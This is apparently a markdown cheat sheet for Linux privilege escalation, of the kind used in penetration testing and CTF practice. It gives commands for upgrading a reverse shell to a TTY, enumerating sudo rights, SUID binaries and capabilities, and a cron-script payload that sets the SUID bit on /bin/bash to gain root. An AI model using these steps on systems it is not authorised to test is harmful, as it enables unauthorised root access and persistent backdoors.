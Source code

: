 - #### Try to upgrade to TTY shell (if you have a basic listener).
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
or e.g. if that fails:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- #### Check if Kernel / OS is out of date

```bash
uname -a
```
```bash
cat /etc/os-release
```
or
```bash
cat /etc/*release
``` 
for older systems.

Find a known CVE and its related exploits using google/searchsploit. Make sure you understand what the exploit does so as not to break anything on the server.

---

- #### Look for programs that your user can run with sudo rights

Run `sudo -l`

Use [GTFOBins](https://gtfobins.github.io/) to find information on how binaries with sudo rights can be used.

---

- #### Look for programs with SUID or GUID bit set

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Use [GTFOBins](https://gtfobins.github.io/#+suid) to find attack vectors

---

- #### Find binaries with *Capabilities*

```bash
getcap -r / 2>/dev/null
```

Use [GTFOBins](https://gtfobins.github.io/) to find attack vectors

---

- #### Look for crontab vulnerabilities

```bash
cat /etc/crontab
```

If you can modify a script that is run by cron you can get root access.

e.g.

```bash
#!/bin/bash
chmod u+s /bin/bash #Set the SUID bit on /bin/bash
````
run the command

```bash
/bin/bash -p
```

to run bash in privileged mode.

---

